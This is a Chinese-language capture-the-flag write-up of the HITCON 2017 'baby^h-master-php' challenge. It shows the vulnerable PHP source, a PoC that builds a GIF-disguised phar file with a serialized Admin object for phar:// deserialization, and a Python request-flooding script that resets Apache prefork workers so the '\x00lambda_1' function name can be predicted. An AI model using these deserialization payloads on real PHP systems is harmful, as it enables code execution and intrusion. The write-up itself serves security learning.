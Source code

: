 # hitcon-2017-baby^h-master-php

题目直接给出源码

```php
<?php 
    $FLAG    = create_function("", 'die(`/read_flag`);'); 
    $SECRET  = `/read_secret`; 
    $SANDBOX = "/var/www/data/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);  
    @mkdir($SANDBOX); 
    @chdir($SANDBOX); 

    if (!isset($_COOKIE["session-data"])) { 
        $data = serialize(new User($SANDBOX)); 
        $hmac = hash_hmac("sha1", $data, $SECRET); 
        setcookie("session-data", sprintf("%s-----%s", $data, $hmac)); 
    } 

    class User { 
        public $avatar; 
        function __construct($path) { 
            $this->avatar = $path; 
        } 
    } 

    class Admin extends User { 
        function __destruct(){ 
            $random = bin2hex(openssl_random_pseudo_bytes(32)); 
            eval("function my_function_$random() {" 
                ."  global \$FLAG; \$FLAG();" 
                ."}"); 
            $_GET["lucky"](); 
        } 
    } 

    function check_session() { 
        global $SECRET; 
        $data = $_COOKIE["session-data"]; 
        list($data, $hmac) = explode("-----", $data, 2); 
        if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac)) 
            die("Bye"); 
        if ( !hash_equals(hash_hmac("sha1", $data, $SECRET), $hmac) ) 
            die("Bye Bye"); 

        $data = unserialize($data); 
        if ( !isset($data->avatar) ) 
            die("Bye Bye Bye"); 
        return $data->avatar; 
    } 

    function upload($path) { 
        $data = file_get_contents($_GET["url"] . "/avatar.gif"); 
        if (substr($data, 0, 6) !== "GIF89a") 
            die("Fuck off"); 
        file_put_contents($path . "/avatar.gif", $data); 
        die("Upload OK"); 
    } 

    function show($path) { 
        if ( !file_exists($path . "/avatar.gif") ) 
            $path = "/var/www/html"; 
        header("Content-Type: image/gif"); 
        die(file_get_contents($path . "/avatar.gif")); 
    } 

    $mode = $_GET["m"]; 
    if ($mode == "upload") 
        upload(check_session()); 
    else if ($mode == "show") 
        show(check_session()); 
    else 
        highlight_file(__FILE__); 
```

可以看出 flag 在 `Admin` 类中，如果能构造反序列化触发 `__destruct` 函数就能获取 flag

## phar 反序列化

简单的说，当使用 phar:// 协议读取 phar 文件的时候，文件内容会被解析成 phar 对象，然后 phar 对象内的 Metadata 信息会被反序列化。

在 `upload` 函数中调用了 `file_get_content()` 函数,可以利用 `phar://` 协议读取本地 `phar` 文件(phar协议不支持远程文件)

因此只需在 VPS 生成一个 phar 文件, `metadata` 设置为 Admin 对象，就能调用 `__destruct` 函数，然后利用 upload 访问 `?m=upload&url=http://ip` 写到服务器

p牛的 PoC：
```php
<?php
class Admin {
    public $avatar = 'orz';  
}
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['file.php'] = '<?php ?>';
$p->setMetadata(new Admin());
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
rename(__DIR__ . '/avatar.phar', __DIR__ . '/avatar.gif');
?>
```

## creat_function
在 payload 下载后，我们便需要访问它，但是获取 flag 的方式有两种
一是使用 `my_function_$random` 函数，但是 `$random` 是随机数，不可能猜出来；二便是直接调用 `$FLAG` 函数

```php
$FLAG = create_function("", 'die(`/read_flag`);');
```

但 `$FLAG` 函数是通过 `create_function` 创建，并没有设置函数名字，但其实这里声明的函数是有函数名的，匿名函数会被设置为`\x00lambda_%d`，`%d` 是从 1 递增的，直到最大长度结束。


但是我们并不知道当前的匿名函数到底有多少个, 因为每访问一次题目就会生成一个匿名函数。

## Apache-prefork

来自 Pr0phet 师傅的 wp:
> Apache-prefork 模型(默认模型)在接受请求后会如何处理,首先Apache会默认生成5个child server去等待用户连接, 默认最高可生成256 个 child server, 这时候如果用户大量请求, Apache就会在处理完 MaxRequestsPerChild 个tcp连接后kill掉这个进程,开启一个新进程处理请求(这里猜测Orange大大应该修改了默认的0,因为0为永不kill掉子进程 这样就无法fork出新进程了) 在这个新进程里面匿名函数就会是从1开始的了

这里我们可以通过大量的请求来迫使 Pre-fork 模式启动的 Apache 启动新的线程，这样 `%d` 会刷新为1，就可以预测了。


运行 Orange 师傅给的 PoC

```Python
import requests
import socket
import time
from multiprocessing.dummy import Pool as ThreadPool
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass

def run(i):
    while 1:
        HOST = '127.0.0.1'
        PORT = 8007
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((HOST, PORT))
        s.sendall('GET / HTTP/1.1\nHost: 127.0.0.1:8007\nConnection: Keep-Alive\n\n')
        # s.close()
        print 'ok'
        time.sleep(0.5)

i = 8
pool = ThreadPool( i )
result = pool.map_async( run, range(i) ).get(0xffff)
```

同时尝试访问 `?m=upload&url=phar:///var/www/data/xxx&lucky=%00lambda_1`（xxx为 orange+ip 的 md5） 拿到 Flag

## References
[hitconDockerfile/hitcon-ctf-2017/baby^h-master-php-2017](https://github.com/Pr0phet/hitconDockerfile/tree/master/hitcon-ctf-2017/baby%5Eh-master-php-2017)

[HITCON2017-writeup整理](https://lorexxar.cn/2017/11/10/hitcon2017-writeup/)

